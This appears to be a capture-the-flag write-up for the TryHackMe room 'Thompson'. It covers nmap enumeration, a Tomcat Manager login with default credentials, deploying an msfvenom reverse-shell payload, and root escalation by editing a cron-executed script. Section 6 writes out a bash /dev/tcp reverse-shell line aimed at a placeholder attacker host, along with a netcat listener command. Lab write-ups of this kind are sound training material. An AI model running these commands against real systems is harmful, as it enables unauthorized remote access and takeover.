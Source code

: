 # Writeup for Room "Thompson"

This is the writeup for the box Thompson

## 🔍 Enumeration Phase

## 1. WebSite
- There is not a website
- There is not a `robots.txt`.

    ![WebSite](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/thompson/screenshots/00.png)

## 2. Fuzzing
-  **Dirbuster / Gobuster** have been excluded from the scan.
  
## 📡 3. Nmap Scan
- The following information was found:
  - The port 22 is open. **SSH**
  - The port 8009 is open. **Apache Jserv**
  - The port 8080 is open. **HTTP (Apache Tomcat)**

    ![Nmap Scan](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/thompson/screenshots/01.png)

## 4. Tomcat Manager
- When I loaded the route ```http://ip-machine:8080/manager``` I got the popup window
  
  ![tomcat-manager](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/thompson/screenshots/02.png)

- There is a username and password for default, I tried to login with these credentials and I have gotten to enter:
  
  ![tomcat-manager-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/thompson/screenshots/03.png)
  
  ![tomcat-manager-3](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/thompson/screenshots/04.png)

## 5. Reverse Shell
- I am going to try a reverse shell with the ```revshells.com``` website as we can see in the screenshot below:
  
  ![revshells.com](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/thompson/screenshots/05.png)

- I am going to compile the following code with ```msfvenom``` and I will use the ```nc``` command to connect to the machine:
  
  ![msfvenom](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/thompson/screenshots/06.png)
  
  ![nc](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/thompson/screenshots/07.png)

- After uploading the file and do a deploy, the ```nc``` has a shell:
  
  ![file-uploaded](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/thompson/screenshots/08.png)
  
  ![shell](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/thompson/screenshots/09.png)

- If I navigate to Jack’s user folder, I find the first flag:
  
  ![jack-user](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/thompson/screenshots/10.png)

## 🐚💻🚀 6. Privilege Escalation
- In the same directory, there is a file named ```id.sh```, which is a script that adds the id user to the test.txt file.
  
  ![id.sh](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/thompson/screenshots/11.png)

- I executed a ```cat /etc/crontab``` and I found the following line:
  
  ![crontab](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/thompson/screenshots/12.png)

> [!NOTE]
> The id.sh script is executed every minute.

- I have added the following line to the script file : ```/bin/bash -c "bash -i >& /dev/tcp/YOUR-IP-MACHINE/5555 0>&1"```
  
  ![id-sh-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/thompson/screenshots/13.png)

- I opened a ```nc -nvlp 5555```, and one minute later I had root access, where I found the second flag: 
  
  ![root-access](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/thompson/screenshots/14.png)